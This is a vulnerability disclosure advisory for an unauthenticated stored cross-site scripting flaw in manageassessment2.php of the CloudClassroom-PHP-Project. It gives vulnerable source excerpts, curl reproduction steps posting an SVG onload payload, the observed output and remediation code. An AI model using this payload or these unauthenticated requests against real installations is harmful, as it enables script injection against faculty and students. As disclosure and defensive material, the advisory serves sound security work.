


# Unauthenticated stored XSS in `manageassessment2.php`

## Summary

CloudClassroom-PHP-Project permits an unauthenticated attacker to persist JavaScript in an assessment. The affected endpoint attempts to redirect unauthenticated requests but does not terminate execution. It then stores attacker-controlled assessment fields and later renders them without context-appropriate output encoding.

When a faculty member opens the affected assessment in `manageassessment2.php`, or a student opens questions containing the payload in `takeassessment2.php`, the stored JavaScript executes in the application's origin.

## Affected product

- Repository: https://github.com/mathurvishal/CloudClassroom-PHP-Project
- Confirmed affected commit: `5dadec098bfbbf3300d60c3494db3fb95b66e7be`
- Affected component: `manageassessment2.php`
- Affected parameters: `ExamName`, `Q1`, `Q2`, `Q3`, `Q4`, and `Q5`
- Fixed version/commit: none known as of October 6, 2026

## Severity

- Severity: Medium
- CWE: CWE-79, Improper Neutralization of Input During Web Page Generation
- CVSS v3.1: **6.1** (`CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N`)

The attacker does not need an authenticated account to store the payload. User interaction is required because an authenticated faculty member or student must open a page that renders the affected assessment data.

## Technical details

### Source-code evidence



At the beginning of `manageassessment2.php`, unauthenticated users are redirected, but processing is not stopped:

```php
if ( $_SESSION[ "fidx" ] == "" || $_SESSION[ "fidx" ] == NULL ) {
    header( 'Location:facultylogin' );
}
```

The endpoint subsequently copies POST parameters directly into an SQL statement:

```php
$E_name = $_POST['ExamName'];
$Q_1 = $_POST['Q1'];
$Q_2 = $_POST['Q2'];
$Q_3 = $_POST['Q3'];
$Q_4 = $_POST['Q4'];
$Q_5 = $_POST['Q5'];

$sql = "UPDATE `examdetails` SET ExamName='$E_name', Q1='$Q_1', Q2='$Q_2', Q3='$Q_3', Q4='$Q_4', Q5='$Q_5' WHERE ExamID=$make";
```

Stored values are rendered without HTML encoding. For example:

```php
<textarea name="ExamName" rows="1" cols="50"><?php $ExamName=$row['ExamName']; echo $ExamName; ?></textarea>
```

The question fields are also rendered as HTML to students in `takeassessment2.php`, for example:

```php
<h4><strong>Q1. <?php $Q_1=$row['Q1']; echo $Q_1; ?></strong></h4>
```

The vulnerability therefore combines an ineffective authentication redirect with unsafe persistence and unsafe output rendering.

## Reproduction

The following test uses the assessment with `ExamID=4` from the repository's sample database. Run it only against a local test installation.

1. Start a new unauthenticated session and save its cookie:

```bash
curl -sS -c session.cookies \
  'http://127.0.0.1:18763/manageassessment2.php?editassid=4' \
  -o before.html
```

2. Submit the payload without faculty credentials:

```bash
curl -sS -b session.cookies -D post.headers \
  -X POST 'http://127.0.0.1:18763/manageassessment2.php?editassid=4' \
  --data-urlencode 'ExamName=</textarea><svg onload=alert(document.domain)>' \
  --data-urlencode 'Q1=What is the previous version of HTML, prior to HTML5?' \
  --data-urlencode 'Q2= What does HTML stand for?' \
  --data-urlencode 'Q3=Who is making the Web standards?' \
  --data-urlencode 'Q4=Choose the correct HTML element for the largest heading:' \
  --data-urlencode 'Q5=What is the correct HTML element for inserting a line break?' \
  --data-urlencode 'update=Update' \
  -o post.html
```

The response is `302 Found` with `Location:facultylogin`, but the database update has already been executed.

3. Confirm that the payload was stored and emitted as executable markup:

```bash
curl -sS -b session.cookies \
  'http://127.0.0.1:18763/manageassessment2.php?editassid=4' \
  -o verify.html

grep -F '</textarea><svg onload=alert(document.domain)>' verify.html
```

Observed response fragment:

```html
<textarea name="ExamName" rows="1" cols="50"></textarea><svg onload=alert(document.domain)></textarea>
```

4. Log in as a faculty user and open:

```text
http://127.0.0.1:18763/manageassessment2.php?editassid=4
```

The browser executes the SVG `onload` handler. During validation, the JavaScript dialog contained `127.0.0.1`, confirming execution in the application's origin.

### Web evidence



## Impact

An unauthenticated attacker can persist JavaScript that runs for authenticated users who view an affected assessment. The script runs with the victim's access to the application origin and can read page content, issue same-origin requests as the victim, modify application data accessible to that victim, or present convincing phishing content.

## Remediation

1. Stop execution immediately after every authentication redirect:

```php
if (empty($_SESSION['fidx'])) {
    header('Location: facultylogin.php');
    exit;
}
```

2. Enforce authorization server-side before allowing a faculty member to update an assessment.
3. Use prepared statements for the update query.
4. Encode database values for their output context. For text inside a `<textarea>` or normal HTML text, use:

```php
echo htmlspecialchars($value, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
```

5. Add CSRF protection to state-changing forms.
6. Consider a restrictive Content Security Policy as defense in depth.

## Duplicate check

The NVD contains other CloudClassroom-PHP-Project findings, including CVE-2024-57423 for XSS through the `exid` parameter and CVE-2026-100311, CVE-2026-100313, and CVE-2026-100877 for different files and parameters. No record found during the October 6, 2026 review described stored XSS through the assessment fields in `manageassessment2.php`.

## Disclosure timeline

- August 2, 2026: original laboratory evidence recorded.
- October 6, 2026: source reviewed at commit `5dadec098bfbbf3300d60c3494db3fb95b66e7be`.
- October 6, 2026: independently reproduced in an isolated local environment using PHP 8.4.24 and the repository's sample database.
- October 6, 2026: unauthenticated persistence, vulnerable HTML output, and JavaScript execution in an authenticated browser confirmed.

## Credits

Discovered and reported by:

- **Marcus Chaves** — `vinniboy021@gmail.com`
- **Fernando Viana** — `nanduviana@gmail.com`
